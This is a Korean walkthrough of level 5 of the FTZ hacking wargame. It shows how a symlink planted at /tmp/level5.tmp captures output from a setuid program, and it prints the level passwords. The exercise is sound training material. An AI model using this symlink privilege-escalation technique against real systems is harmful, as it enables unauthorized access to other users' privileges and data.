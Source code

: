PW : `what is your name`

```bash
[level5@ftz level5]$ cat hint

/usr/bin/level5 프로그램은 /tmp 디렉토리에
level5.tmp 라는 이름의 임시파일을 생성한다.

이를 이용하여 level6의 권한을 얻어라.
```

우선 level5프로그램을 실행해보면 아무런 출력없이 정상 종료 된다.
```bash
[level5@ftz level5]$ level5
[level5@ftz level5]$ echo $?
0
```
하지만 `/tmp/`폴더를 확인해보면 아무것도 없다.
```bash
[level5@ftz level5]$ ls /tmp/ -la
total 8
drwxrwxrwt    2 root     root         4096 May 22 08:29 .
drwxr-xr-x   20 root     root         4096 May 22 08:18 ..
srwxrwxrwx    1 mysql    mysql           0 May 22 08:19 mysql.sock
```
단지 `mysql.sock`파일만 있지만 이것도 빈 파일(용량이 0)이기 때문에 아무 상관이 없어 보인다.

그럼 추측해보기로는 파일이 생성되긴 하지만 프로그램 종료시에 바로 삭제 되는 것 같은데... 이것을 어떻게 해야 할지 생각해 봤다.

이는 심볼릭링크를 사용하면 해결된다.

심볼릭 링크는 아래와 같이 생성한다
```bash
$ ln -s [원본] [링크 파일]
```
`-s`옵션은 심볼릭 링크를 생성한다는 뜻이다

우선 아무 파일을 `~/tmp/` 폴더에 만들어 준 다음
심볼링 링크를 `/tmp/`폴더에 `level5.tmp`라는 이름으로 만들어 주면 될 것이다.

```bash
[level5@ftz tmp]$ pwd
/home/level5/tmp
[level5@ftz tmp]$ touch test
[level5@ftz tmp]$ cd /tmp/
[level5@ftz tmp]$ ln -s ~/tmp/test ./level5.tmp
[level5@ftz tmp]$ ls -al
total 8
drwxrwxrwt    2 root     root         4096 May 22 09:19 .
drwxr-xr-x   20 root     root         4096 May 22 08:18 ..
lrwxrwxrwx    1 level5   level5         21 May 22 09:19 level5.tmp -> /home/level5/tmp/test
srwxrwxrwx    1 mysql    mysql           0 May 22 08:19 mysql.sock
```
보면 level5.tmp파일이 test파일을 잘 가리키고 있음을 볼 수 있다.

그리고서 level5프로그램을 실행시켜주면 잘 남아있다.
```
[level5@ftz tmp]$ cat level5.tmp
next password : what the hell
```
level6의 패스워드는 `what the hell`이다.
